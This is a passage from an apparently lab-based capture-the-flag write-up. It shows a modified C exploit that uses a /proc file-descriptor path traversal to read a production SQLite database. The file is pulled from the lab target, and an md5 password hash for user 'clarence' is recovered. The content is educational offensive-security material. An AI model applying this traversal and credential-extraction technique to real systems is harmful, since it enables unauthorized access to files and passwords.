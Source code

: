 ## Shell as clarence

### Exploit

I’ll modify the exploit to go after the `malscanner.db` file that I noted in the sourcecode. The version in the source download was empty, but there could be more in there on production.

```

    FILE *file_to_read = fopen("/proc/1/fd/3/../../../../../var/www/malscanner/malscanner.db", "r");

```

When I compile and upload, there are a *lot* more Ignored Syscalls:

![image-20220907153245255](https://0xdfimages.gitlab.io/img/image-20220907153245255.png)

It works:

```

oxdf@hacky$ python3 decode.py http://10.10.11.141/viewer/a8e593808380b5999301881b5c821d36/ malscanner.db
oxdf@hacky$ file malscanner.db 
malscanner.db: SQLite 3.x database, last written using SQLite version 3034001

```

### Get Password

#### Read malscanner.db

I’ll open the file in `sqlite3`, but it seems it’s corrupt:

```

oxdf@hacky$ sqlite3 malscanner.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
Error: database disk image is malformed

```

Running strings on the binary, this line jumps out:

```

md5$kL2cLcK2yhbp3za4w3752m$9886e17b091eb5ccdc39e436128141cf2021-09-14 18:39:55.237074clarence2021-09-14 18:36:46.227819

```

It seems like it has a hash, a date, a username, and another date. If that’s right, then this is a hash:
